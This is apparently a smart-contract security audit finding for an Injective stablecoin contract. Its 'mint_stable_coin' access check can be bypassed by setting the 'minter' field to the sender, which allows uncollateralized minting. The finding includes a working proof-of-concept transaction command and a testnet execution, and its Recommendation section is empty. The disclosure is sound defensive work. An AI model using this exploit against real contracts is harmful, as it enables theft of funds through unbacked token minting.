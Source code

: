 **Auto Label:** Missing access control enables unauthorized minting, allowing attackers to bypass validation and issue tokens without proper authorization or identity checks.  

**Original Text Preview:**

##### Description

The `mint_stable_coin` function allows to mint a certain amount of stable coins depending on the amount of collateral deposited by the user. The validations are performed by the **Custody** contract, verifying that the user has already deposited the corresponding collateral, however, this control can be bypassed by directly calling this entry point in the **Central Control** contract.

The access control of the `mint_stable_coin`function is not correctly implemented. It is a nested "if" where the first condition checks if `info.sender` is different from the Custody contract and the second checks if it is equal to the `minter`value.

Since the `minter`value is an input included in the message, it can be set by the attacker to the same value as `info.sender` and bypass the access control. After this, there is no validation on `collateral_amount`and `collateral_contract` values, so the minting process is performed with any amount chosen by the attacker.

This is the affected code snippet:

![Vulnerable code](https://halbornmainframe.com/proxy/audits/images/6602ad6353b13d194e08efaa)

##### Proof of Concept

Attacker transaction:

```
injectived tx wasm execute <CDP_CENTRAL_CONTROL_ADDRESS>'{"mint_stable_coin":{"minter":"<USER_ADDRESS", "stable_amount": "1000", "collateral_amount": "1000", "collateral_contract": "<COLLATERAL_CONTRACT>"}}' --chain-id <CHAIN_ID> --node <NETWORK> --from user  --gas=auto --gas-prices=1000000000000inj
```

Executed on testnet:

```
injectived tx wasm execute inj1aflk2ftzem4emzjmv5ve27af4m3n0ggsz6z45w '{"mint_stable_coin":{"minter":"inj1ph5h805jd4cmgj2jemhgln9ssjkk744ca44avl", "stable_amount": "1000", "collateral_amount": "1000", "collateral_contract": "inj1t4uk4ntn3l0wa7dcqsjl5enenzaaer2alrfmcm"}}' --chain-id injective-888 --node https://testnet.sentry.tm.injective.network:443 --from user  --gas=auto --gas-prices=1000000000000inj 
```

Link to the transaction in the explorer:

<https://testnet.explorer.injective.network/transaction/0x43edfd119a82e0787f7af20e9b88c849a88b6cdfef0950ec6c64964cc2cb98c2/>

##### BVSS

[AO:A/AC:L/AX:L/C:N/I:N/A:N/D:C/Y:N/R:N/S:U (10.0)](/bvss?q=AO:A/AC:L/AX:L/C:N/I:N/A:N/D:C/Y:N/R:N/S:U)

##### Recommendation
